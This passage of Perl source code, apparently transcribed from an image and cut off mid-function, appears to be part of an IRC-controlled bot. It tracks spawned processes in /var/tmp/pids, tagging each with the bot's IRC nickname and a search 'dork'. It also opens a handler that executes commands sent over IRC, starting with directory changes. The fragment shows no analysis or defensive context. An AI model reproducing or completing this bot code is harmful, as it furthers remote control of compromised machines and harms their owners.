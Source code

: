   

sub addproc { 

  

   my $proc=$_[0]; 

   my $dork=$_[1]; 

     

   open(FILE,">>/var/tmp/pids"); 

   print FILE $proc." [".$irc_servers{$IRC_cur_socket}{'nick'}."] $dork\n"; 

   close(FILE); 

} 

  

  

sub delproc { 

  

   my $proc=$_[0]; 

   open(FILE,"/var/tmp/pids"); 

  

   while(<FILE>) { 

      $_ =~ /(\d+)\s+(.*)/; 

      $childs{$1}=$2; 

   } 

   close(FILE); 

   delete($childs{$proc}); 

  

   open(FILE,">/var/tmp/pids"); 

  

   for $klucz (keys %childs) { 

      print FILE $klucz." ".$childs{$klucz}."\n"; 

   } 

} 

  

sub zr { 

   my $printl=$_[0]; 

   my $comando=$_[1]; 

   if ($comando =~ /cd (.*)/) { 

      chdir("$1") || msg("$printl", "No such file or directory"); 
